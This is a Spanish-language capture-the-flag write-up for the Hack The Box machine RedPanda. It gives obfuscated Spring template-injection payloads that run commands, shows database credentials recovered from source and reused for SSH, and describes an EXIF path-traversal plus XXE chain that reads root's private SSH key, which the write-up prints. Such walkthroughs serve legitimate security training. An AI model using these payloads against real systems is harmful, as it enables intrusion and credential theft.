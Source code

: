 ```yaml
---
title: Red Panda Writeup
published: true
---
```




Hoy resolveremos la maquina retirada "RedPanda" es una maquina de hack the box de dificultad facil.


![RedPanda](https://user-images.githubusercontent.com/109216235/185928422-3e828dfa-543c-4e4f-b1e0-c1a2fdced03b.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la maquina con nmap


```nmap
nmap -sC -sV -T4 10.10.11.170
Nmap scan report for 10.10.11.170
PORT      STATE SERVICE
22/tcp    open  ssh
8080/tcp  open  http-proxy

```

Con este analisis podemos ver que tiene el puerto ssh y el puerto http abierto. Esto nos hace enteder que esta maquina tiene un puerto para acceder de forma remota y un puerto para poder acceder en internet


![imagen](https://user-images.githubusercontent.com/109216235/185764843-feace9a3-e2e5-43e9-a1c4-3271e7620de2.png)


# [](#header-2) Vulnerabilidad


Dentro de la pagina vemos un buscador y probando payloads vemos que nos bloquea el caracter $


![imagen](https://user-images.githubusercontent.com/109216235/185764827-93488e1f-c4de-4f1c-b9fb-d89c58276616.png)


Probamos con el caracter * y vemos que si que nos deja


![imagen](https://user-images.githubusercontent.com/109216235/185764892-8e6c1201-4efe-42bd-a6c4-26852677a38e.png)


Sabiendo esto usando esta herramienta de VikasVarshney https://github.com/VikasVarshney/ssti-payload podemos crear un payload que nos permita ejecutar comandos en el buscador. Si ponemos este payload en el buscador conseguiremos la "user.txt".


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

Utilizando la misma tecnica encontramos un archivo en esta ruta /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java Utilizando este payload 


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```


Y nos devuelve esto


```javascript
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
stmt = conn.prepareStatement("SELECT name, bio, imgloc, author FROM pandas WHERE name LIKE ?");
stmt.setString(1, "%" + query + "%");
```


Este output nos indica un posible usuario y una posible contraseña. Probando conseguimos acceder al ssh


```bash
ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: RedPandazRule
```


# [](#header-3) Escalada de privilegios


Ahora subimos "pspy" al servidor y vemos que root corre un script como woodenk.

```python3
CMD: UID=0    PID=8420   | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=8422   | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=8423   | /usr/bin/find /tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8424   | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8425   | /usr/bin/find /dev/shm -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8426   | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ;
CMD: UID=1000 PID=8429   | /usr/bin/find /tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8430   | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8432   | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```


Revisando de nuevo el archivo donde encontramos credenciales vemos como exporta el xml


```python3
@GetMapping(value="/export.xml", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
  public @ResponseBody byte[] exportXML(@RequestParam(name="author", defaultValue="err") String author) throws IOException {

      System.out.println("Exporting xml of: " + author);
      if(author.equals("woodenk") || author.equals("damian"))
      {
          InputStream in = new FileInputStream("/credits/" + author + "_creds.xml");
          System.out.println(in);
          return IOUtils.toByteArray(in);
      }
      else
      {
          return IOUtils.toByteArray("Error, incorrect paramenter 'author'\n\r");
      }
  }

```

Vemos también como el archivo App.java maneja los metadatos

```python3
public static String getArtist(String uri) throws IOException, JpegProcessingException
{
    String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
    File jpgFile = new File(fullpath);
    Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
    for(Directory dir : metadata.getDirectories())
    {
        for(Tag tag : dir.getTags())
        {
            if(tag.getTagName() == "Artist")
            {
                return tag.getDescription();
            }
        }
    }

    return "N/A";
}
```

Mirando esta configuración podemos modificar el campo "Artist" de una imagen cualquiera que después subiremos a la máquina

```python3
wget "https://avatars.githubusercontent.com/u/95899548?v=4"
Longitud: 33411 (33K) [image/jpeg]
Grabando a: «758475?v=4»

758475?v=4               100%[====================================>]       

«758475?v=4» guardado [33411/33411]

mv 758475\?v=4 eskere.jpg

exiftool -Artist="../home/woodenk/privesc" eskere.jpg
    1 image files updated
    
scp gato.jpg woodenk@10.10.14.28:.
woodenk@10.10.11.170's password: RedPandazRule
gato.jpg                                                 100%
```

A continuación creamos un archivo XML que apunte a la id_rsa de root en el directorio home.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/gato.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Hacemos una petición curl con el formato de que vimos en el archivo como User-Agent


```curl
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/eskere.jpg"
```


Exportamos el xml desde /stats que coja nuestro archivo

Despues de un rato revisamos el xml y tendra el id_rsa de root


```xml
cat privesc_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/eskere.jpg</uri>
    <privesc>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
</privesc>
    <views>3</views>
  </image>
  <totalviews>5</totalviews>
</credits>
```

Finalizamos introduciendo el id_rsa para conectarnos por ssh y conseguir la root.txt

```bash
ssh root@10.10.11.170 -i id_rsa
root@redpanda:~# cat root.txt 
```
